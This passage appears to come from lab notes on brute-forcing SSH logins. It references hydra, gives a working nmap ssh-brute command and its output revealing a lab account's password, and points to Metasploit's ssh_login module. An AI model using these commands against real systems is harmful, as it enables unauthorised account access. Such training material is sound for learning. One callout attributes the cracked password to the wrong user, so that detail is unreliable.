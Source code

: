 ![hydra bruteforce](3-enumerationassets/image-20230216151839392.png)

> 📌 *student*'s password is `friend`

- Use [nmap ssh-brute script](https://nmap.org/nsedoc/scripts/ssh-brute.html) to perform brute-force password guessing for *administrator* user

```bash
echo "administrator" > users
nmap -p22 --script=ssh-brute --script-args userdb=/root/users 192.230.83.3
```

```bash
22/tcp open  ssh
| ssh-brute: 
|   Accounts: 
|     administrator:sunshine - Valid credentials
|_  Statistics: Performed 27 guesses in 6 seconds, average tps: 4.5
```

![nmap ssh-brute](3-enumerationassets/image-20230216152315669.png)

> 📌 *student*'s password is `sunshine`

- Use [`ssh_login`](https://www.rapid7.com/db/modules/auxiliary/scanner/ssh/ssh_login/) metasploit module to bruteforce *root*'s password
